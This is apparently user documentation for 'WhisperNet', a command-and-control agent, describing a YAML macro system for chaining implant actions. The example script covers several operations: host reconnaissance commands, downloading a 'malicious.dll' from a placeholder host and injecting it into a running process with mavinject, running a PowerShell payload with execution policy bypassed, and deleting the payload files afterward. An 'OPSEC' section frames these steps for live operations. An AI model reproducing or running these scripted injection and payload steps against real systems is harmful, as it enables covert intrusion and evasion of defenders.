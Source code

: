 Here's an updated version of the documentation that includes the **new format and behavior** while keeping it **high-level and user-friendly**:  

---

# **Command Extension Scripts**

WhisperNet allows you to extend commands using a **YAML-based** scripting system. This provides a structured way to define automated, multi-step actions that can be executed sequentially.

Think of it as a **macro-style automation system**—you define a command, list its steps, and WhisperNet handles execution.

**Dev Note**: This scripting approach is mostly due to my lazyness, rather than hardcoding every possible command into the agent, a minimal set of core commands is supported, and these scripts provide the flexibility to extend and adapt them as needed.

---

## **Example Script**
```yaml
commands:
  - name: recon
    description: "Gather system information"
    steps:
      - action: shell
        args: ["whoami /all"]

      - action: shell
        args: ["ipconfig /all"]

      - action: shell
        args: ["netstat -ano"]

  - name: mav_inject_dll
    description: "Download and inject a DLL into a running process"
    steps:
      - action: sleep
        args: [1]

      - action: get_file
        args: ["http://someip/malicious.dll", "C:\\malicious.dll"]

      - action: start-process
        args: ["mavinject", "<PID>", "/INJECTRUNNING", "C:\\malicious.dll"]

      - action: sleep
        args: [60]

  - name: deploy_payload
    description: "Upload and execute a payload"
    steps:
      - action: upload
        args: ["C:\\temp\\payload.bin", "/var/www/html/payload.bin"]

      - action: shell
        args: ["powershell -ExecutionPolicy Bypass -File C:\\temp\\payload.ps1"]

  - name: clean_up
    description: "Remove temporary files"
    steps:
      - action: shell
        args: ["del /Q C:\\temp\\payload.bin"]

      - action: shell
        args: ["del /Q C:\\temp\\payload.ps1"]
```

---

<!-- ## **What’s New?**
✅ **Standardized Command Format:**  
- Each command now includes a **name**, **description**, and a list of **steps**.  

✅ **Step-Based Execution:**  
- Instead of grouping actions under a single command, each **step** is treated as an independent execution unit.  

✅ **Arguments are Cleaner:**  
- Arguments are now defined as **lists**, ensuring they’re correctly handled across different execution environments.  

✅ **Commands Are Fully Dynamic:**  
- Each step is processed **individually**, meaning commands can be **logged, modified, or even re-ordered** before execution.  

--- -->

## **How It Works**
1. **Each command** in the script has a name and description.  
2. **Each step** within a command defines an **action** and **arguments**.  
3. When executed, WhisperNet **processes steps one at a time**, ensuring reliability and flexibility.  
4. Arguments are automatically **formatted** before execution (e.g., `"get_file http://someip/malicious.dll C:\\malicious.dll"`).  

---

## **Operational & OPSEC Considerations**
- **Script Changes Are Instant**  
  - You don’t need to restart anything—modifying the YAML script applies changes **immediately** on the next execution.  

- **Minimal OPSEC Footprint for the Script Itself**  
  - The script itself has no impact on OPSEC. However, the **commands inside** will affect OPSEC based on how they’re executed.  

- **Safer Execution Flow**  
  - By processing each **step separately**, you gain better control over execution—allowing for **logging, monitoring, and debugging** before running high-risk commands.  

---

## **Why Use This?**
🚀 **Faster Workflow** – Automate common recon, execution, and cleanup steps.  
⚡ **Dynamic Control** – Modify scripts in real-time without restarting processes.  
🔧 **Modular & Expandable** – Easily add new commands and steps as needed.  
🔒 **More OPSEC-Aware** – Provides better visibility into what’s running at each step.  

---

This updated system makes **command execution more structured, flexible, and safer to use in live environments** while ensuring WhisperNet remains **dynamic and adaptable**. 